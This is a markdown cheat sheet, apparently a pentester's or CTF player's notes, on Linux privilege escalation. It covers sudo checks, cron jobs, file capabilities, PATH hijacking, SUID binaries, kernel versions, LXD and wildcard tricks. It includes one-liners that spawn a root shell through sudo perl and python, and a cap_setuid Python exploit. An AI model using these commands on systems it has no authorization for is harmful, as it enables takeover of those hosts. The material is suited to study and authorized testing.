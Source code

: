 ## Linux Privilege Escalation

Go here if you run out of ideas:  https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

### User Permissions

1. See if user has sudo permissions (you may need the user's password to use it though)

   ```bash
   sudo -l
   ```

2. If a user has sudo permissions to scripts (Perl, Python, etc), use those with sudo to spawn a shell as root.

   ```bash
   # Perl
   sudo perl -e 'exec "/bin/bash -i"'
   # Python
   sudo python -c 'import pty; pty.spawn("/bin/bash")'
   ```

### Cron Jobs

1. Check cron jobs for any binaries that can be written to or scripts that can be exploited

### Capabilities for Files

```bash
# Check for files with capabilities set
getcap -r / 2>/dev/null
# Set capability for file
setcap CAPABILITY+ep /path/filename
```

Example:

```bash
setcap cap_setuid+ep /usr/bin/python2.7
/usr/bin/python2.7 = cap_setuid+ep

#Exploit
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```

**<u>Empty Capabilities</u>**

 if you have a binary that:

1. is not owned by root
2. has no `SUID`/`SGID` bits set
3. has empty capabilities set (e.g.: `getcap myelf` returns `myelf =ep`)

then that binary will run as root.

### Binary Path

Check the path and see if a writeable folder supersedes one of the bin folders.  If a script calls a binary without specifying the path and runs as root, you can override the binary with your own script.

### Exploitable Binaries

1. Check out any unusual SUID binaries from the initial scans

2. Be sure to closely examine the /usr/* binaries, as user defined programs are supposed to end up here.

3. Either cat custom binaries or use ltrace to examine them:

   ```bash
   ltrace BIN_NAME
   ```

4. Check this page for binaries that can be used to break out restricted shells, escalate or maintain elevated privileges,  transfer files, spawn bind and reverse shells, and facilitate the other  post-exploitation tasks:  https://gtfobins.github.io/

### Kernel Exploits

1. Find the current Linux and Kernel version and look for Kernel Exploits

   ```bash
   # Linux Ver
   cat /etc/*release
   # Kernel Ver
   uname -a   
   ```

### LXD Containers

If a user is a member of the `lxd` group, follow this to escalate privileges:

https://reboare.github.io/lxd/lxd-escape.html

### Wildcard Exploits (Wildcard Wildness)

Some commands can have their options hijacked using filenames that match those options.  See this page for more info:

https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/

### Commands to Try:

https://book.hacktricks.xyz/linux-unix/privilege-escalation/payloads-to-execute



